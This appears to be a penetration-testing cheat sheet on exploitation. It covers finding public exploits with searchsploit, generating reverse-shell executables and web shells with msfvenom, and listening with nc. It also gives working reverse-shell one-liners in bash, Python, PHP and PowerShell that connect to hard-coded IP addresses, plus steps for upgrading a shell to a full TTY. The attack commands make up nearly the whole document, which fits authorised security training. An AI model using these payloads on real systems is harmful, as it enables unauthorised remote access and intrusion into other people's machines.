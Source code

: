 # 💣 Exploitation

## Locating public exploits

```shell
# search for an exploit
searchsploit <name>

# show the exploit
searchsploit -x <id>

# copy the exploit to the current folder
searchsploit -m <id>

# NSE
locate .nse | grep <name>
nmap --script-help <name>
```

## Reverse Shells

> [revshells.com](https://revshells.com)

### MSFVenom

```shell
# stageless x64 shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf
# meterpreter staged shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf


msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### One liners

```shell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

python -c 'import 
socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>

# powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.230",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Check Connectivity

```shell
# in kali
sudo tcpdump -i tun0 icmp

# from the target
ping -c1 <kali_ip>
```

### Upgrade a Reverse Shell into a full TTY

Spawn a TTY Shell

```shell
# using Python
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

# if Python is not available
/bin/bash -i
script /dev/null -c bash
```

Background the shell and fix settings

```shell
# CTRL+Z
stty raw -echo; fg
```

Set terminal env variables

```shell
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 columns 100
```

### Better listener with rlwrap

```shell
rlwrap nc -lnvp 4444
```
